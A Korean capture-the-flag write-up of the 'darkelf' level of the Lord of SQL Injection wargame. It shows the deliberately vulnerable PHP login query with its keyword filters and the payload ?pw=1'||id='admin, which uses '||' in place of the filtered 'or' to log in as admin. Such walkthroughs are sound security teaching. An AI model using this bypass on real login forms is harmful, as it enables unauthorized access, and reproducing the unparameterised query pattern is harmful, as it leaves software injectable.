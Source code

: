 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - darkelf 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `darkelf` 이다.  

이번 문제는 이 전 문제와 동일한 풀이 방법으로 풀 수 있었다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_darkelf where id='guest' and pw=''
-------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

이 전에는 `공백`에 필터링이 있었지만 이번에는 `or`과 `and`에 필터링이 있다.  

`worfman` 문제에서는 `공백`을 사용하지 않기 위해 `||`을 사용했었는데, 이번에는 `or` 문자열을 사용하지 않기 위해 `||`을 사용하면 될 것 같다.  

이 전 문제와 동일하게 URL 뒤에 아래와 같이 입력 해 주었다.  

```
?pw=1'||id='admin
```

```php
-----------------------------------------------------------------------------
query : select id from prob_darkelf where id='guest' and pw='1'||id='admin'
-----------------------------------------------------------------------------

Hello admin
DARKELF Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

`DARKELF Clear!!`
